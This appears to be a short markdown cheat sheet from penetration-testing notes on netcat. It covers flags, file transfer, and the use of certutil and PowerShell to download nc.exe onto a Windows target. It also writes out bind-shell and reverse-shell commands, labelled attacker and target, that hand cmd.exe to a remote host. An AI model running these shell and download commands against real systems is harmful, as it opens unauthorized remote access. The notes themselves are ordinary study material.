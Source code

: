 
# Overview
Netcat (nc) is a TCP/IP Swiss army knife that is great for seething up quick and easy connections or transferring information between two hosts.

# Usage
- `nc -nv 10.4.20.244 80`
- `nc -lnvp <port>` : set up netcat listener
- -n : --nodns
- -l : --listen
- -v : --verbose
- -p : source port
- -u : --udp
- -e : `--exec <command>`
## Send Files
Transfer netcat to Windows.
1. Inside `/usr/share/windows-binaries/` : go to folder
2. `python -m SimpleHTTPServer 80` : set up hosting of the files for DL on Win
3. `certutil -urlcache -f http://<IP>/nc.exe nc.exe` : download using windows utility and save to file "nc.exe"
4. `powershell -c "Invoke-WebRequest -Uri <URL> -OutFile <FILENAME>"`

Listener
```bash
nc -lnvp 1234 > test.txt
```
Sender
```bash
nc -nv <ip> 1234 < test.txt
```

## Bind_Shells
A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.

\[ Attacker ] >>>------> \[ Target ]

Target - Listener
```bash
nc -lnvp 1234 -e cmd.exe
```
Attacker - Sender
```bash
nc -nv <ip> 1234
```

## Reverse_Shells
The target initiates the connection to the attacker. Great for when there is a firewall in the way. Firewalls usually allow outbound connections.

\[ Attacker ] <------<<< \[ Target ]

Attacker - Listener
```bash
nc -lnvp 1234
```
Target - Sender
```bash
nc -nv <ip> 1234 -e cmd.exe
```
